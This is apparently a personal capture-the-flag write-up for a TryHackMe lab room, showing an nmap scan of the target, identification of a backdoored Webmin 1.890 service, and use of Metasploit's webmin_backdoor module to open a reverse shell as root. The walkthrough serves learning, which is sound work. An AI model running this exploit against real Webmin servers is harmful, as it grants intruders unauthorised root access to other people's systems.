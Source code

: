 ```yaml
---
parent: "[[CTFs - THM]]"
---
```

```bash
# PLATFORM          . THM
# CTF NAME          . Source
# DESCRIPTION       . Exploit a recent vulnerability and hack Webmin, a web-based system configuration tool.
# DIFFICULTY        . Easy
# CTF LINK          . https://tryhackme.com/room/source
```

```bash
sudo nmap -sSVC -T5 -p- 10.10.249.33 -oN source
```

```
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b74cd0bde27b1b15722764562915ea23 (RSA)
|   256 b78523114f44fa22008e40775ecf287c (ECDSA)
|_  256 a9fe4b82bf893459365becdac2d395ce (ED25519)

10000/tcp open  http    MiniServ 1.890 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

- I had no idea what Webmin is, and, after some research, I found out that there was a backdoor implemented in 2 separate occasions, April 2018 (version 1.890) and July 2018, versions 1.900 - 1.920

- This made me check msfconsole for any actual exploits to see if they work, assuming the webserver has the "right" version of webmin installed.

```
search webmin

Matching Modules
================

{redacted / trimmed}

	7  exploit/linux/http/webmin_backdoor         2019-08-10       excellent  Yes    Webmin password_change.cgi Backdoor



msf6 > use 7

```

- After setting up the `RHOSTS`, `LHOST`, `SSL` to `True`, I ran the exploit and ...  

```
[*] Command shell session 1 opened ({redacted}:4444 -> 10.10.249.33:35886) at 2023-12-10 17:27:59 +0200


whoami
root
```

- Well, that was quick :) 

- The user flag is in `/home/dark/user.txt`
- The root flag is in `/root/root.txt`

